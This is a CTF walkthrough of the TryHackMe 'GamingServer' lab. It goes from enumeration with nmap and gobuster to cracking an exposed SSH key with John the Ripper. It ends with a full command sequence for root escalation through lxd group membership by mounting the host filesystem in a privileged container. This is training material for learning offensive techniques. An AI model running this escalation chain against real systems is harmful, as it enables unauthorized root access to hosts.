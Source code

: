 # GamingServer

[https://tryhackme.com/r/room/gamingserver](https://tryhackme.com/r/room/gamingserver)

### **USER_FLAG{ } :**

1. we get the target ip which is 10.10.73.9
2. after doing an port scan  → 

`nmap -sC -sV 10.10.73.9 >> nmap.txt`

![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-1.png?raw=true)

1. there are only two ports open ssh and http
2. if we go to that IP we can find a website

[![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-2.png?raw=true)
1. and in the dev tools we can have a potential user name which is john
2. for finding hidden files and directories we can use 

`gobuster dir -u [http://10.10.73.9](http://10.10.73.9/) -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x .html,.php,.txt`

1. we found some directories

[![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-3.png?raw=true)
1. `/about.html (Status: 200)
/about.php (Status: 200)
/index.html (Status: 200)
/robots.txt (Status: 200)
/uploads (Status: 301)
/myths.html (Status: 200)
/secret (Status: 301)`
2. In the `/secret` directory, we have a file named `secretKey` which contains a private key. We have SSH installed on the target machine. This could be the private SSH key of user `john`.
3. 

![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-4.png?raw=true)

1. but this thing is password protected
2. We also have a `/uploads` which contains some interesting files.
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png)
    
    Of course we need to check the `meme.jpg` first :D
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png)
    
    We also have a "The Hacker Manifesto" which looks pretty neat!
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png)
    
    There is another file named `dict.lst` which looks like a wordlist. Let's download this to our system. We can use this wordlist to crack the private key!
    
3. User Shell
    
    We can use John the Ripper tool to crack the password for the private key of user `john`.
    
    We need to convert the `secretKey` into a format that John can understand.We will be using `ssh2john.py` for this.
    
    I'll save the output in `hash.txt` and then we can crack the password with the wordlist we found using John the Ripper.
    
    ![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%204.png)
    
    ![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%205.png)
    
    We got the password for the private key. Now we can login via SSH and read the user flag!
    
4. Now we ave to use  `ssh -i secretKey [john@10.10.215.18](mailto:john@10.10.215.18)`

![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%206.png)

in this form we need to give te secretKey 600 chmod permissio (600 permissions means that **only the owner of the file has full read and write access to it**.)

ssh private key needs 600  permission

### **ROOT_FLAG{ }:**

1. We have a shell as user `john` and now we need to find a way to escalate our privileges to root.

If we use the `id` command, we can see that the user `john` is a part of the `lxd` group.

![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%207.png)

LXD is a lightweight container hypervisor which allows to run linux containers. If a member is part of the `lxd` group, it can escalate its privileges to user `root` irrespective of the fact that it has sudo permissions or not.

I found [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation?ref=infosecarticles.com) guide related to `lxd` privilege escalation. We need to build an `alpine` image and then we can mount the `/root` directory of  the target machine to the `/mnt` directory of a `lxd` container.

1. First we need to build the image in our own machine:
    
    ```
    git clone https://github.com/saghul/lxd-alpine-builder.git
    cd lxd-alpine-builder
    ./build-alpine
    
    ```
    
    This will create a `.tar.gz` compressed image similar to this:
    
    ![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%208.png)
    
    Next we need to copy the compressed file to the target machine and then import the image using `lxc`.
    
    ```
    john@exploitable:~$ lxc image import ./alpine-* --alias myimage
    Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
    ```
    
    ```
    john@exploitable:~$ lxc image list
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    |  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    | myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jan 7, 2023 at 6:10pm (UTC) |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    john@exploitable:~$ lxc init myimage image -c security.privileged=true
    Creating image
    ```
    
    ```
    john@exploitable:~$ lxc config device add image mydevice disk source=/ path=/mnt/root recursive=true
    Device mydevice added to image
    ```
    
    ```
    john@exploitable:~$ lxc start image
    ```
    
    Our container has been created. Now we can simply start the container and read our final flag in the `/mnt/root/root` directory!
    
    ```
    john@exploitable:~$ lxc exec image /bin/sh
    ~ # id
    uid=0(root) gid=0(root)
    ~ # cd /mnt/root/root/
    /mnt/root/root # cat root.txt
    ********************************
    
    ```
    
2. In the middle section you have to run a simple http server and the you have to wget with your machines ip address tun0 in the target machine.s

![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%209.png)

at last !

![Untitled](GamingServer%204dee5f9a77194ea79397127f01abba90/Untitled%2010.png)

### **Alhumdulillah!**
